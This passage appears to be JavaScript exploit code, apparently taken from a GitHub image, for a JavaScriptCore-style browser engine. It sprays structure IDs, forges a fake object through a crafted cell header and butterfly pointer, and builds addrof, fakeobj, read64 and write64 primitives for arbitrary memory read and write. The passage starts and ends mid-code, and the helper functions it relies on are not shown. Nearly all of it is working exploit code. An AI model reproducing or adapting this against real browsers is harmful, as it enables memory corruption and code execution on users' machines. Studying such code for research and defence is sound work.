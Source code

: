 ```javascript
        //print(describe(o));
        //dbg(0);
        structureIDSprayArray.push(o); //structureID capacity would be above 0x3000;
        if (i == 0x2fff) {
            return o;
        }
    }
}
let boxedArray = sprayBoxedArray();//unboxedArray is NonArrayWithContiguous.


i32[0] = 0x00001000;            //(1)       structureID 0x1000 will be a Object with high probability.
i32[1] = 0x01001506 - 0x10000;  //(2)       ////////////////////////////////////////WHY(1) need to solve.

let container = {
    padding: 0,
    cellHeader: f64[0], //(3) with (1) (2) fake sturcuture ID.
    butterflyPtr: rwProxy,
    mask: 0xfffffff
}
///print(describe(container));
//dbg(0);

let addrContainer = fu(primitiveAddrOf(container));
let addrFakedObject = uf(addrContainer + 0x20);
let refFakedObject = primitiveFakeObj(addrFakedObject);
//print(describe(refFakedObject));                              refFakedObject is NonArrayWithDouble
//dbg(0);

//print(describe(rwProxy));
//print(describe(boxedArray));
//print(describe(unboxedArray));

let addrRWProxy = primitiveAddrOf(rwProxy);
let addrBoxedArray = primitiveAddrOf(boxedArray);
let addrUnboxedArray = primitiveAddrOf(unboxedArray);


let sharedButterfly = fu(refFakedObject[(fu(addrUnboxedArray) - fu(addrRWProxy) + 8) / 8]);

refFakedObject[(fu(addrBoxedArray) - fu(addrRWProxy) + 8) / 8] = uf(sharedButterfly);

let memory = {
    addrof: function (obj) {
        boxedArray[0] = obj;
        return unboxedArray[0];
    },
    fakeobj: function (fValue) {
        unboxedArray[0] = fValue;
        return boxedArray[0];
    },
    read64: function (uAddress) {                           //cannot read 0 out of memory.
        refFakedObject[1] = uf(uAddress + 0x10);
        return this.addrof(rwProxy.outOfLineProperty_fff);
    },
    write64: function (uAddress, fValue) {
        refFakedObject[1] = uf(uAddress + 0x10);
        rwProxy.outOfLineProperty_fff = this.fakeobj(fValue);
    }
};
```